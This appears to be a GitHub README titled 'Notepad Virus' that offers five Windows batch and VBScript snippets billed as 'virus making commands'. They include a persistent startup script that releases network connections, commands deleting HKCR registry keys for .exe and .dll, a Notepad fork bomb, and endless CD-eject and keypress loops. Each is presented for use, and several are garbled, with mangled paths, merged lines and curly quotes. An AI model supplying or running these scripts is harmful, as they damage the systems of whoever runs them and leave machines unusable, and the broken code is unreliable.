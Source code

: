 # Notepad Virus

## 🦠Top Virus Making Commands From Notepad🦠


### 🟣1. Disable Internet Permanently :-
```bash  
echo @echo off>c:windowswimn32.bat
echo break off>c:windowswimn32.bat echo
ipconfig/release_all>c:windowswimn32.bat
echo end>c:windowswimn32.batreg add
hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /freg add
hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /fecho You Have Been HACKED!
PAUSE
```
### 🃏Action :-  This will disable the internet connectivity permanently.



### 🟣2.  Delete Key Registry Files :-

```bash
@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*
:MESSAGE
ECHO Your PC has been crashed.Your Dad.
GOTO MESSAGE
```
### 🃏Action :- This will delete key registry files, then loops a message

## 🟣3.Endless Notepads :-
```bash 
@ECHO off
:top
START %SystemRoot%\system32\notepad.exe
GOTO top
```
### 🃏Action :- This will pop up endless notepads until the computer freezes and crashes


### 🟣4. Popping Cd Drive :- 
```bash
Set oWMP = CreateObject(”WMPlayer.OCX.7″)
Set colCDROMs = oWMP.cdromCollection
do
if colCDROMs.Count >= 1 then
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
End If
wscript.sleep 100
loop
```

### 🃏Action :- This will make the CD drives constantly pop out


## 🟣 5. Endless Enter :-

```bash 
Set wshShell = wscript.CreateObject(”WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “~(enter)”
loop
```
